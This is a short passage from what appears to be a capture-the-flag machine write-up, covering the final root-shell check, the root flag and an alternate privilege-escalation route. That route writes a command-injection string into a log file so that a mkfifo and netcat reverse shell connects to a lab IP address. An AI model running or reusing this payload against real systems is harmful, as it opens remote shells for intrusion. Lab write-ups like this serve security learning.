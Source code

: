 > Then get root shell
> Check user 

```
id
whoami 
```

![](./IMG/53.png)

> Get root flag

![](./IMG/54.png)

## Others 

> With other writeups 
> I also found the following reverse shell payload can get pwn permission 

```
echo "1 2 ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.145 1340 >/tmp/f #" >> /home/kid/logs/hackers
```

![](./IMG/55.png)

![](./IMG/56.png)
